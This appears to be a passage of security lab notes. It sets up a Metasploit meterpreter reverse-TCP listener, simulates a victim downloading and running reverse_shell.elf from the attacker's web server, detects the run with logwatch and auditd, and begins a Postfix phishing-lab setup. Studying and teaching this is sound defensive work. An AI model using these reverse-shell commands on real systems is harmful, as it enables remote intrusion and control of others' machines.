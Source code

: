 
#### **Attacker: C2 Listener Setup**

```bash
# Launch the Metasploit console
sudo msfconsole

# Inside the msfconsole prompt, configure the listener
# These settings must match the payload generation step
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/aarch64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.10.11
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```

---

#### **Server: Payload Execution (Victim Simulation)**

```bash
# Download the malicious payload from the attacker's web server
wget http://192.168.10.11:8000/reverse_shell.elf

# Make the downloaded file executable
chmod +x reverse_shell.elf

# Execute the payload to establish the C2 connection
./reverse_shell.elf
```

---

#### **Server: Host-Based Detection and Analysis**

```bash
# After the payload has been executed, run Logwatch to generate a report
# The auditd logs will show the execution of the malicious commands
sudo logwatch --range Today

# Alternatively, you can search the audit logs directly for the file
sudo ausearch -i -f ./reverse_shell.elf
```

### **Experiment 8: Phishing Attacks**

---

#### **Server: Mail Server & Client Setup**

```bash
# Install Postfix (mail server) and Mutt (email client)
sudo apt-get update
sudo apt-get install -y postfix mutt
# During Postfix installation, select 'Internet Site'.
# For 'System mail name', enter 'internal-workspace.co.uk'.

# Edit the main Postfix configuration file
sudo nano /etc/postfix/main.cf
# --- In the editor, ensure the following values are set correctly ---
myhostname = server.internal-workspace.co.uk
mydomain = internal-workspace.co.uk
myorigin = $mydomain
mydestination = $myhostname, localhost.$mydomain, localhost, $mydomain
home_mailbox = Maildir/
# --- Save and exit the editor ---

```